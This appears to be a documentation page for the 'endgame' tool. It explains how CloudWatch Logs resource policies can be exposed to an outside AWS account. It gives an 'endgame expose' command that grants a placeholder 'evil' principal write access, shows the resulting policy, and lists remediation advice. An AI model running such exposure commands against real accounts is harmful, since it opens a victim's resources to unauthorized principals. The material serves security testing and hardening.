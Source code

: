 # CloudWatch Logs Resource Policies

CloudWatch Resource Policies allow other AWS services or IAM Principals to put log events into the account.

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service cloudwatch --name test-resource-exposure
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws logs describe-resource-policies
```

* Observe that the contents of the exposed resource policy match the example shown below.

## Example

```json
{
    "resourcePolicies": [
        {
            "policyName": "test-resource-exposure",
            "policyDocument": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:root\"},\"Action\":[\"logs:PutLogEventsBatch\",\"logs:PutLogEvents\",\"logs:CreateLogStream\"],\"Resource\":\"arn:aws:logs:*\"}]}",
            "lastUpdatedTime": 1613244111319
        }
    ]
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that CloudWatch Logs access is only shared with trusted accounts, and that the trusted accounts truly need access to write to the CloudWatch Logs.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposing write access to your CloudWatch Logs**: Tightly control access to the following IAM actions:
  - [logs:PutResourcePolicy](https://docs.aws.amazon.com/AmazonCloudWatchLogs/latest/APIReference/API_PutResourcePolicy.html): _Creates or updates a resource policy allowing other AWS services to put log events to this account_
  - [logs:DeleteResourcePolicy](https://docs.aws.amazon.com/AmazonCloudWatchLogs/latest/APIReference/API_DeleteResourcePolicy.html): _Deletes a resource policy from this account. This revokes the access of the identities in that policy to put log events to this account._
  - [logs:DescribeResourcePolicies](https://docs.aws.amazon.com/AmazonCloudWatchLogs/latest/APIReference/API_DescribeResourcePolicies.html): _Lists the resource policies in this account._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [CloudWatch Logs Resource Policies](https://docs.aws.amazon.com/AmazonCloudWatch/latest/logs/iam-access-control-overview-cwl.html)
* [API Documentation: PutResourcePolicy](https://docs.aws.amazon.com/AmazonCloudWatchLogs/latest/APIReference/API_PutResourcePolicy.html)
* [aws logs put-resource-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/logs/put-resource-policy.html)
* [aws logs describe-resource-policy](https://docs.aws.amazon.com/cli/latest/reference/logs/describe-resource-policies.html)